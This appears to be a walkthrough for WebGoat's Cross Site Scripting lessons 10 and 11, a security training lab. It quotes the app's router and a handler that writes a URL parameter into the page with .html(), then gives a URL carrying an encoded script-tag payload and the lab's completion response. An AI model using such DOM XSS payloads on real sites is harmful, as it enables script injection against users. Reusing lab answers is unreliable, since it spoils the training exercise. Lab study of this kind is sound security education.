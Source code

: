 # Cross Site Scripting

## Lesson 10
The test route is hidden in `js/view/GoatRouter.js`:
```
routes: {
        'welcome': 'welcomeRoute',
        'lesson/:name': 'lessonRoute',
        'lesson/:name/:pageNum': 'lessonPageRoute',
        'test/:param': 'testRoute',
        'reportCard': 'reportCard'
    }

...

testRoute: function (param) {
    this.lessonController.testHandler(param);
    //this.menuController.updateMenu(name);
}
```

So the answer is `start.mvc#test/`

## Lesson 11
`testHandler` is located in `js/controller/LessonController.js`:
```
this.testHandler = function(param) {
    console.log('test handler');
    this.lessonContentView.showTestParam(param);
};
```

And in `js/view/LessonContentView.js`:
```
/* for testing */
showTestParam: function (param) {
    this.$el.find('.lesson-content').html('test:' + param);
}
```

`.html()` function is vulnerable to XSS.
 
Use this URL to call the requested method:
```
http://vernjan:8080/WebGoat/start.mvc#test/%3Cscript%3Ewebgoat.customjs.phoneHome%28%29%3C%2Fscript%3E
```
And grab the random number from response:
```
{
  "lessonCompleted" : true,
  "feedback" : "Congratulations. You have successfully completed the assignment.",
  "output" : "phoneHome Response is 1090389950",
  "assignment" : "DOMCrossSiteScripting",
  "attemptWasMade" : true
}
```
